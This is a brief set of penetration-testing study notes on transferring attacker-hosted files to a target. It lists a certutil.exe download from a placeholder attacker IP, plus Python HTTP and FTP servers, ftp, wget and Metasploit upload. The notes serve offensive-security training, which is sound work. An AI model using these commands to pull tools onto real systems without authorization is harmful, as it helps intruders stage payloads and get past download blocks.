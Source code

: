 ## File Transfers Review
- As an attacker we usually host a file
- Some ways get blocked and so you should know other ways
- Certutil
  - certutil.exe -urlcache -f htt://<attacker ip>/file.txt file.txt
- HTTP
  - python -m SimpleHTTPServer 80
- Browser
  - Navigate directly to file
- FTP
  - python -m pyftpdlib 21 <attacker ip>
  - ftp <attacker ip>
- Linux
  - wget
- Metasploit
  - Upload/download
  
